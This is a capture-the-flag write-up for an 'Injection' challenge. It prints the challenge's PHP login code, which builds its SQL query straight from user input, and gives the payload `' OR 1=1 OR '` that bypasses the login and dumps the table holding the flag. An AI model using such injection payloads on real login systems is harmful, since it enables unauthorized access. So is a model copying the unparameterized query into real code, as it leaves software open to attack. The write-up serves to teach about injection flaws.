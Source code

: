 # 80 - Injection

*Written by Michael Zhang*

## Problem

This site seems to have some information we need. Unfortunately, it's protected by a login page. Help us get through the login system!

[Website](http://www.easyctf.com/sites/injection) - [Source](injection.phps)

## Hint

You might want to study up on some SQL syntax. How can we modify the query so it will always return true?

## Solution

Examine this bit of injection.phps carefully:

```php
<?php

error_reporting(0);

if (isset($_POST['submit']) && isset($_POST['username']) && isset($_POST['password']) && $_POST['submit'] == "Login") {
	echo "<table border='1'><tr><th>username</th><th>message</th></tr>";
	$username = $_POST['username'];
	$password = $_POST['password'];
	mysql_connect("xxxxxxxxx", "xxxxxxxxx", "xxxxxxxxx");
	@mysql_select_db("xxxxxxxxx") or die("can't select database");
	
	$query = "SELECT * FROM `xxxxxxxxx` WHERE username='$username' AND password='$password'";
	$result = mysql_query($query);
	while($row = mysql_fetch_array($result)) {
		echo "<tr><td>".$row['username']."</td><td>".$row['message']."</td></tr>";
	}
	echo "</table>";
}

?>
```

Notice the query string that fetches the data from the database.

```
$query = "SELECT * FROM `xxxxxxxxx` WHERE username='$username' AND password='$password'";
```

If we set username to `' OR 1=1 OR '`, then the query string would look like

```
$query = "SELECT * FROM `xxxxxxxxx` WHERE username='' OR 1=1 OR '' AND password='whatever'";
```

Since 1 always equals 1, the condition will always be satisfied, so the script pulls all rows out of the database.

|username|message|
|---|---|
|admin|hi|
|flag|kids_dont_code_like_this_at_home|

## Flag

`kids_dont_code_like_this_at_home`